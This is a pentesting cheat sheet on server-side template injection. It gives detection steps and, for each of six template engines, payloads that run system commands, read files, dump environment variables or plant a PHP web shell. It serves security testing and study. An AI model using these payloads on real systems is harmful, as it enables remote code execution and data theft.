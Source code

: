 # Server-Side Template Injection {SSTI}

# Overview

# Testing for Server-Side Template Injection

## Approach

+ Fuzz URL paramters with template syntax
+ Where page edditing which returns somewhere on the web application is possible fuzz those inputs
+ Attempt to induce template related errors which reveal the template engine in use
+ Craft a exploit specific to the templating engine

![Determining Template Engine](./images/Template_Engine_Decision_Diagram.png)

~ From [Portswigger](https://portswigger.net/web-security/images/template-decision-tree.png) ~

## Typical Examples of Injectable Areas

### URL Paramters

`domain.net/message?=close_template_tag}}insert_paylaod`

`domain.net/message?=close_template_tag%>insert_paylaod`

### Page Editors

```
<p>Add ur html yay</p>

<p>{{paylaod}}</p>

```

## Identification Polyglots

`${{<%[%'"}}%\`

# Payloads By Template Engine

## ERB 

### Tag Syntax

`<%= %>`

### Identification Payloads

`<%= 7*7 %>`

### General Payloads

`<%= system("cat /path/to/file") %>`

`<%= Dir.entries('/') %>`

`<%= File.open('/example/arbitrary-file').read %>`

## Tornado

### Tag Syntax

`{{ }}`

### Identification Payloads

`{{7*7}}`

### General Payload

`{% import os %}{{ os.popen("cat /path/to/file").read() }}`

## FreeMarker

### Tag Syntax

`${ }`

### Identification Payloads

`${7*7}`

### General Payload

`<#assign ex="freemarker.template.utility.Execute"?new()> ${ ex("cat /path/to/file") }`

## Velocity

### Tag Syntax

`$class`

### Identification Payloads

```
#set( $a = "Velocity" )
$foo
```

### General Payload

```
#set($str=$class.inspect("java.lang.String").type)
#set($chr=$class.inspect("java.lang.Character").type)
#set($ex=$class.inspect("java.lang.Runtime").type.getRuntime().exec("cat /path/to/file"))$ex.waitFor()
#set($out=$ex.getInputStream())
#foreach($i in [1..$out.available()])$str.valueOf($chr.toChars($out.read()))
#end
```

## Handlebars

### Tag Syntax

`{{ }}`

### General Payload

```
wrtz{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return require('child_process').exec('cat /path/to/file');"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```

## Smarty

### Tag Syntax

### Gneral Payload

`{Smarty_Internal_Write_File::writeFile($SCRIPT_NAME,"<?php passthru($_GET['cat /path/to/file']); ?>",self::clearConfig())}`

# Dumping Template Objects

+ It may not always be possible to escalate a SSTI vulnrability to gain RCE
+ However where template injection is possible there is still a high potential for sensitive data exposure and vulnrability chaining
+ One way to develop a meaningful exploit from a SSTI is to use the native templating languages environment variables to dump all the objects used in the context including custom developer ones

## JAVA Based Engines

`${T(java.lang.System).getenv()}`

# Resources

+ [ERB Syntax](https://www.stuartellis.name/articles/erb/)
+ [Server-Side template injection in tornado](https://opsecx.com/index.php/2016/07/03/server-side-template-injection-in-tornado/)
+ [ERB Template-Injection](https://www.trustedsec.com/blog/rubyerb-template-injection/)
+ [Black Hat Server-Side Template Injection](https://www.blackhat.com/docs/us-15/materials/us-15-Kettle-Server-Side-Template-Injection-RCE-For-The-Modern-Web-App-wp.pdf)